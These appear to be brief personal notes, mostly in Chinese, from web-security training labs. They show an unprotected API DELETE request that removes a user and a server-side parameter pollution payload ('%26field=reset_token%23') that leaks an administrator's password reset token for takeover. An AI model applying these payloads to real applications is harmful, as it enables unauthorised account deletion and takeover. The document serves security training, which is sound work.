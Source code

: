 # Exploiting an API endpoint using documentation
发现一个api请求，更改方法为delete，删除carlos
DELETE /api/user/carlos HTTP/2

# 利用查询字符串中的服务器端参数污染
Lab: Exploiting server-side parameter pollution in a query string
要求：登陆管理员账号删除carlos
忘记密码功能点输入administrator
![[Pasted image 20241127141510.png]]
看见有个forgotpassword的js
![[Pasted image 20241127141810.png]]
/forgot-password?reset_token=${resetToken}看js内容，有这个路径

```POST请求体
csrf=VcOTyYojxc25BBOOiu5Tx2MM9khcuFD1&username=administrator
```
截断发现响应不一样，通过爆破参数，看返回包等操作
构造这个
```
username=administrator%26field=reset_token%23
```
再去访问/forgot-password?reset_token=123456789，这里的功能点是带着这个token就能该密码